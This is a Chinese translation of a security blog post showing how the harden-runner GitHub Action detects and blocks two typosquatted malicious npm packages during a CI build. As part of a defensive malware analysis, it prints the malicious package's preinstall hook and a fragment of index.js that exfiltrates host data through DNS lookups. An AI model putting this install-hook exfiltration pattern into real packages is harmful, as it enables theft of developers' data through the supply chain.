

# 检测 GitHub 操作中的恶意软件包

> 原文：<https://infosecwriteups.com/detecting-malware-packages-in-github-actions-7b93a9985635?source=collection_archive---------3----------------------->

[step-security/harden-runner](https://github.com/step-security/harden-runner)GitHub Action 在 GitHub 托管的 runner (Ubuntu VM)上安装安全代理来监控构建过程。该代理监视每个步骤的进程、文件和网络活动，并可用于将出站网络呼叫限制到允许的端点。

最近几个恶意软件包被[发布](https://www.techradar.com/news/microsoft-azure-developers-targeted-with-flood-of-malicious-npm-packages)到 NPM 注册表。在这篇博文中，我将通过 harden-runner 的监控镜头向你展示这些包的行为。

为了分析它们的行为，两个恶意包作为依赖项被添加到 package.json 文件中。在真实的场景中，开发人员可能会无意中在他们的应用程序中使用这些恶意的包，而他们本打算使用不同的包。这叫**包** **错别字**。例如 core-client-rest，恶意包的名称类似于合法包@azure/core-client。

```
{
  "name": "npmtest",
  "version": "1.0.0",
  "description": "",
  "main": "test.js",
  "dependencies": {
    **"core-client-rest": "99.10.9",
    "dazaar-cli": "99.10.9"**
  }
}
```

GitHub Actions 工作流程的第一步是[step-security/harden-runner](https://github.com/step-security/harden-runner)。harden-runner 被配置为只允许对 github.com(下载代码)和 registry.npmjs.org(下载依赖项)的出站调用。然后，工作流在最后一步运行 **npm install** 。您可以以这种方式使用 harden-runner 来执行行为分析，并检测工作流中的恶意依赖关系。

```
name: npm_ci
on: [push, pull_request, workflow_dispatch]jobs:
  test:
    runs-on: ubuntu-lateststeps:
      - uses: step-security/harden-runner@v1
        with:
          egress-policy: block
          allowed-endpoints: >
            **github.com:443
            registry.npmjs.org:443**
      - uses: actions/checkout@v2
      - uses: actions/setup-node@v1
        with:
          node-version: "16"
      - run: **npm install**
```

在正常情况下，出站呼叫只会被发送到允许的端点。**不过，在这种情况下，会发出、检测并阻止额外的出站呼叫**。如果没有使用 harden-runner，该恶意软件就会成功渗透敏感数据。然而，harden-runner 阻止了这种情况的发生，并捕获了恶意软件。你可以在这里看到实际的 GitHub Actions 工作流程。



step-security/harden-runner GitHub 处理措施检测并阻止了来自恶意软件包的出站呼叫

这些出站调用是因为恶意软件包正在运行预安装步骤，该步骤正在执行 JavaScript 代码以进行出站调用。这是一个恶意软件包的 package.json。它有一个运行 index.js 的预安装步骤

```
{
 "name": "core-client-rest",
 "version": "99.10.9",
 "description": "azbit package",
 "main":"index.js",
 "scripts":{
 "test":"echo 'error no test specified' && exit 1",
 "**preinstall**":"node index.js"
 },
"author":"",
"License":"ISC"
}
```

有趣的是，对超长域的第一个调用是 DNS 渗漏调用。恶意软件包的 index.js 文件中的这段代码使用 **dns.lookup** 来过滤数据。DNS 渗透是一种常见的逃避检测的技术。

```
var qs = toName(td);if(isValid(td.hn,td.c,td.un,td.dirs)){for(var j=0;j<qs.length;j++){**dns.lookup**(qs[j], function(err, result) {//console.log(result)});}
```

[step-security/harden-runner](https://github.com/step-security/harden-runner)除了通过发送到 TCP/ UDP 的流量，GitHub 操作还可以检测 DNS 渗透企图。代理在临时虚拟机上运行 DNS 代理，以监控和阻止 DNS 流量。这就是 DNS 渗透尝试被阻止的原因，也是注释显示“*域名的 DNS 解析被阻止*”的原因

您可以使用 SupplyChainGoat 的[依赖关系行为分析](https://github.com/step-security/supply-chain-goat/blob/main/CompromisedDependency.md)中的实践教程来尝试这些步骤。[supplychaingaot](https://github.com/step-security/supply-chain-goat)有实践教程来学习软件供应链安全。本教程使用了一个恶意软件模拟器包，而不是使用实际的恶意软件包，这些恶意软件包现在已经从 NPM 注册表中删除了。

如果您有任何问题或反馈，请使用[https://www . step security . io](https://www.stepsecurity.io)联系我们